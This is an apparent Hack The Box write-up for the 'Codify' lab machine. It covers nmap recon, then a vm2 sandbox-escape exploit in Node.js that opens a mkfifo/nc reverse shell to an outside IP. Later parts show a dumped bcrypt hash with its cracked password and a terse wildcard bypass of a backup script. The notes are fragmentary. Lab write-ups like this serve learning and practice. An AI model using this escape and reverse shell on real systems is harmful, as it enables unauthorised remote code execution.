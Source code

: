 # #1 Introduction
<img width="686" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/75af5d98-c467-479c-a632-19acc53fda6a">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx codify.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- codify.htb
```

we got these open ports
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

There is a nodeJS framework running\
The platform allow to execute nodeJS code with the vm : vm2 https://github.com/patriksimek/vm2/releases/tag/3.9.16

it seems that vm2 has some criticals issues like remote code execution\


async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.146 6666 >/tmp/f'); }
            )
        }
    }
};
p.then();



sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

joshua:spongebob1

we can bypass condition in script /opt/scripts/mysql-backup.sh by using the wildcard *
if we do 2 connections and watch the process in a second account with pspy64, we can see the process executed

kljh12k3jhaskjh12kjh3
